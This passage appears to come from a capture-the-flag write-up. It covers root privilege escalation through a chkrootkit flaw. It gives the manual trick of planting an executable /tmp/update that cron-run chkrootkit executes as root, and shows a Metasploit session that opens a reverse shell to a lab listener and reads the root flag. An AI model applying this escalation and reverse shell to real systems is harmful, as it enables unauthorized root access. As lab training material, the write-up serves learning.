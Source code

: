 Perfect! I decided to use Metasploit for this, I kept getting errors in my shell related to previous overlayfs attempts. But the way to do it manually is to put an executable file called *update* with content of your choice in /tmp and wait for chkrootkit to run it as root.

Metasploit came through and finally, I got root:

``` 
msf exploit(unix/local/chkrootkit) > options

Module options (exploit/unix/local/chkrootkit):

   Name        Current Setting       Required  Description
   ----        ---------------       --------  -----------
   CHKROOTKIT  /usr/sbin/chkrootkit  yes       Path to chkrootkit
   SESSION                           yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(unix/local/chkrootkit) > set SESSION 1
SESSION => 1
msf exploit(unix/local/chkrootkit) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP double handler on 192.168.145.133:4444 
[!] Rooting depends on the crontab (this could take a while)
[*] Payload written to /tmp/update
[*] Waiting for chkrootkit to run via cron...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo EzISATvm3xKkw6bX;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "EzISATvm3xKkw6bX\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.145.133:4444 -> 192.168.145.128:37176) at 2018-11-17 08:05:04 -0500
[+] Deleted /tmp/update
whoami
root
```

Got the root flag:

``` 
cat /root/flag.txt
a10828bee17db751de4b936614558305
```
